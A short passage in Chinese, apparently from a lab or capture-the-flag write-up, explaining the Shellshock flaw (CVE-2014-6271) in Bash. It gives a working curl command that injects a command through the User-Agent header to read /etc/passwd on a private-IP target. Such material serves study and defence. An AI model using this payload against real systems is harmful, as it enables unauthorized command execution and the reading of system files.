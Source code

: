 ![12.png](12.png)

提示存在 shellshock 漏洞, 编号 CVE-2014-6271。

>   shellshock 或 bashdoor, 是 bash shell 的一个远程代码执行漏洞, 其核心问题在于 Bash 对环境变量解析的缺陷，允许攻击者通过**构造恶意环境变量注入任意命令**。

>   攻击者可在环境变量中追加额外命令，Bash 会直接执行这些命令。例如: `export EVIL='() { :; }; echo "Hacked!"'` ,在函数定义后添加 `echo "Hacked!"`

#### shellshock 利用

用 `curl` 模拟 HTTP 交互, 访问刚刚 nikto 扫出的 `cgi-bin/status` 目录:

>   `curl` 中, `-H` 用于设置自定义的 HTTP 请求头。这个参数可以用来向服务器发送额外的 HTTP 头信息，例如自定义的用户代理、认证信息、内容类型等。

---

```bash
sudo curl -v --proxy http://192.168.170.138:3128 http://192.168.170.138/cgi-bin/status -H "User-Agent: () { :; }; echo; /bin/cat /etc/passwd"
```

---
